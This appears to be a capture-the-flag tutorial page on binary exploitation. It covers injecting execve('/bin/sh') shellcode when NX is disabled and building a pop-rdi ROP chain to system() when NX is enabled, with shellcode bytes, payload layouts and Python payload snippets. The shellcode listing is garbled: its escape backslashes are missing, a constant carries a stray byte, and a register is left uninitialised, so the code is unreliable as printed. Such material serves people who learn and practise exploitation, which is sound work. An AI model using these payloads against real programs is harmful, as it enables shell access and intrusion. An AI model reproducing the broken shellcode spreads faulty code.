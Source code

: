 ```yaml
---
title: ROP Chains and Shellcode Injection
parent: Protection Bypass
grand_parent: Pwn
great_grand_parent: Categories
nav_order: 6
---
```


# ROP Chains and Shellcode Injection

This guide explains how to proceed based on whether the binary has **NX enabled** or **NX disabled**.

---

## Shellcode Injection (When NX is Disabled)

If NX (No-eXecute) is **disabled**, memory regions like the stack are executable.

### Exploitation Strategy

1. Overflow the buffer.
2. Inject custom shellcode onto the stack.
3. Overwrite the return address (RIP) to point to your shellcode.

### Example Shellcode (64-bit)

Execve shellcode to spawn a shell (`/bin/sh`):

```assembly
x48x31xd2                                  // xor    rdx, rdx
x48xbbxffx2fx62x69x6ex2fx73x68      // movabs rbx, 0x68732f6e69622fff
x53                                          // push   rbx
x48x89xe7                                  // mov    rdi, rsp
x50                                          // push   rax
x57                                          // push   rdi
x48x89xe6                                  // mov    rsi, rsp
xb0x3b                                      // mov    al, 0x3b
x0fx05                                      // syscall
```

### Payload Layout

```
[ padding to overflow buffer ]
[ shellcode ]
[ padding to reach RIP ]
[ stack address pointing to shellcode ]
```

Example Payload:
```python
payload = b"A" * offset
payload += shellcode
payload += b"B" * (rip_offset - len(shellcode))
payload += p64(shellcode_address)
```

---

## ROP Chain (When NX is Enabled)

If NX is **enabled**, the stack cannot be executed — you cannot jump to shellcode. You must reuse existing executable code (ROP).

### Exploitation Strategy

1. Find a leak to get libc or binary base address.
2. Find useful gadgets (`pop rdi; ret`, etc.).
3. Build a ROP chain to call `system("/bin/sh")`.

### Common Gadgets (64-bit)

- `pop rdi; ret` — to set up the first argument in `rdi`.
- Addresses of `system` and `"/bin/sh"` in libc.

### Typical ROP Payload

```
[ padding to overflow buffer ]
[ pop rdi; ret gadget address ]
[ address of "/bin/sh" string ]
[ address of system() function ]
```

Example:
```python
payload = b"A" * offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

---

## Notes

- **NX disabled**: Use shellcode — easy.
- **NX enabled**: Use ROP chains — requires libc or binary leak.
- **64-bit ROP**: Arguments passed in registers (rdi, rsi, rdx).
- **32-bit ROP**: Arguments passed on the stack — different calling convention.

For information on how to leak libc addresses, see [Infoleak Techniques](infoleak.md).
